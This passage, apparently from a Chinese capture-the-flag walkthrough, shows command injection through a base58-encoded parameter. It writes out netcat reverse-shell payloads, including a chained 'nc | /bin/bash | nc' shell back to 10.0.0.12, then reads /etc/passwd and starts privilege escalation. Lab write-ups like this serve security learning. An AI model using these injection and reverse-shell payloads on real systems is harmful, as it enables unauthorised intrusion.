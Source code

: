 我们在Repeater中修改format为原内容`| which nc`,即`7yURkVR6w4FFJr`

![截屏2021-08-18 下午5.27.47](https://tva1.sinaimg.cn/large/008i3skNly1gtl2kbsecuj617o0u0n1702.jpg)

???奇怪,怎么报错了.难道是我们之前的推断有问题吗?

我们再试试其他命令.`&& ls` -->`5Jdixo4`

![截屏2021-08-18 下午5.35.49](https://tva1.sinaimg.cn/large/008i3skNly1gtl2sn4tb7j617o0u0tcw02.jpg)

咦?这不是可以的嘛?

我们先保留这个疑问,也许是服务端存在关键字过滤等防御措施.

这可就麻烦了,nc还能不能用呢?

我们尝试一下,`| nc 10.0.0.12 3333`->`PizXBGc1AfWVNZZn1vSKEFYCbU`进行连接测试,看看有没有nc.

嘿嘿,本地收到了反弹,看来是存在nc的

我们试试能不能用-e参数直接调用呢

`| nc 10.0.0.12 3333 -e /bin/bash`-> `9MYEjjMDbRMsDqUSBiJtxVPEL5LJAGQZ4gnECmgKamA7`

好家伙,就连tcp连接都没有.看来这个nc版本不支持-e参数了

​		没关系,我们上次学了个新姿势——nc串联!

`| nc 10.0.0.12 3333 | /bin/bash 2>&1 | nc 10.0.0.12 4444`

->`4My9wrA6cLNitCNnwS1w9mqxuhgefHaEQdn4qrTmHdU5HL2yFkFM7C9hWHq8JBkMQPEQpgN5hwVh5`

​		PS:详情请参考第二周打靶

啦啦~获得SHELL啦~

我们是`www-data`用户,权限比较低.当前目录下居然没有flag?!

我们看看/etc/passwd看看有哪些用户

![截屏2021-08-18 下午7.36.03](https://tva1.sinaimg.cn/large/008i3skNly1gtl69uqwqrj61620rmdqb02.jpg)

有个imera用户.我们去到它的home目录,发现了user.txt,但是只有它本人才能查看.

![截屏2021-08-18 下午7.37.29](https://tva1.sinaimg.cn/large/008i3skNly1gtl6b9ilggj61i802saaa02.jpg)

这....提权吧!

### 第一次提权

![截屏2021-08-18 下午5.47.23](https://tva1.sinaimg.cn/large/008i3skNly1gtl34p6k28j617o0u078g02.jpg)

我们使用cat指令查看一下文件内容吧~

为了阅读方便,我将文件内容写出来而不是使用截屏~

```json
//package.json
{
  "dependencies": {
    "bs58": "^4.0.1",
    "cors": "^2.8.5",
    "express": "^4.17.1"
  }
}
```
